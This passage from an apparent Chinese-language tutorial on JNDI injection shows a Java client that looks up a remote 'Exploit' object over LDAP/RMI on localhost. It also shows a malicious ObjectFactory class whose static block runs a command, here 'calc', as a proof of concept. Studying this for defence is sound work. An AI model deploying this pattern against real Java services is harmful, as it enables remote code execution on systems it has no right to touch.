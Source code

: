 再是JNDIClient，

```
package JNDI;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.util.Properties;

public class JNDIClient `{`
    public static void main(String[] args) throws NamingException `{`
        Properties env = new Properties();
        env.put(Context.INITIAL_CONTEXT_FACTORY,
                "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL,
                "rmi://127.0.0.1:7099/");

        Context ctx = new InitialContext(env);
        //ctx.lookup("Exploit");
        //ctx.lookup("rmi://127.0.0.1:1099/Exploit");
        ctx.lookup("ldap://127.0.0.1:7099/Exploit");
    `}`
`}`
```

然后是我们要注册的恶意类，此处是Exploit，

```
import java.util.Hashtable;
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;

public class Exploit implements ObjectFactory `{`
    public Exploit() `{`
    `}`

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable&lt;?, ?&gt; environment) throws Exception `{`
        return null;
    `}`

    static `{`
        try `{`
            String[] cmd = new String[]`{`"calc"`}`;
            Runtime.getRuntime().exec(cmd);
        `}` catch (Exception var1) `{`
            var1.printStackTrace();
        `}`

    `}`
`}`
```

